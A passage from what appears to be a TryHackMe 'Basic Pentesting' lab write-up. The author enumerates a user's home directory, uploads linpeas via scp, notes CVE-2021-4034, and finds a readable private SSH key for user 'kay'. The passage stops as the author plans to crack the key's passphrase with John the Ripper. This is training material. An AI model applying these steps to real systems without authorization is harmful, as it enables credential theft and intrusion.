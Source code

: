We can't access /etc/shadow due to our low privileges.

We could ```cd ..``` to the home directory, and check out the directory for the user kay:

```shell
jan@basic2:/home/kay$ ls -la
total 48
drwxr-xr-x 5 kay  kay  4096 Apr 23  2018 .
drwxr-xr-x 4 root root 4096 Apr 19  2018 ..
-rw------- 1 kay  kay   756 Apr 23  2018 .bash_history
-rw-r--r-- 1 kay  kay   220 Apr 17  2018 .bash_logout
-rw-r--r-- 1 kay  kay  3771 Apr 17  2018 .bashrc
drwx------ 2 kay  kay  4096 Apr 17  2018 .cache
-rw------- 1 root kay   119 Apr 23  2018 .lesshst
drwxrwxr-x 2 kay  kay  4096 Apr 23  2018 .nano
-rw------- 1 kay  kay    57 Apr 23  2018 pass.bak
-rw-r--r-- 1 kay  kay   655 Apr 17  2018 .profile
drwxr-xr-x 2 kay  kay  4096 Apr 23  2018 .ssh
-rw-r--r-- 1 kay  kay     0 Apr 17  2018 .sudo_as_admin_successful
-rw------- 1 root kay   538 Apr 23  2018 .viminfo
```

Some interesting stuff here, but we can't do much with it yet.

---

## Privilege Escalation

> Enumerate the machine to find any vectors for privilege escalation

Let's try to use ```linpeas``` for privilege escalation. We can get the ```linpeas.sh``` script onto the machine using scp and our credentials for jan.

```shell
scp /opt/linpeas.sh jan@10.10.36.240:/dev/shm
```

Once on the machine, we go to that directory, mark it executable (```chmod +x```) and then run it and write it to a log for our records (```./linpeas.sh | tee linlog.txt```).

Linpeas gives us a ton of information and is a very powerful tool.

One yello (max privesc potential) CVE that linpeas alerted on is **CVE-2021-4034**. Not sure if we'll be digging into that but something to research.

We also can see that linpean finds ssh files. /home/kay/.ssh/id_rsa is a private ssh key we could use to login as kay! 

Try and login with it and...

```shell
 ╭─michaelj@MJ in ~/Documents/IT and Cyber Self Study /THM/Basic-Pentesting took 2ms
 ╰─λ ssh -i kay_id_rsa kay@10.10.36.240
Enter passphrase for key 'kay_id_rsa': 
```

Okay more steps. Lets use ```JohnTheRipper```, it has tools to get a hash from a password protected ssh file, and to get the password from that hash.
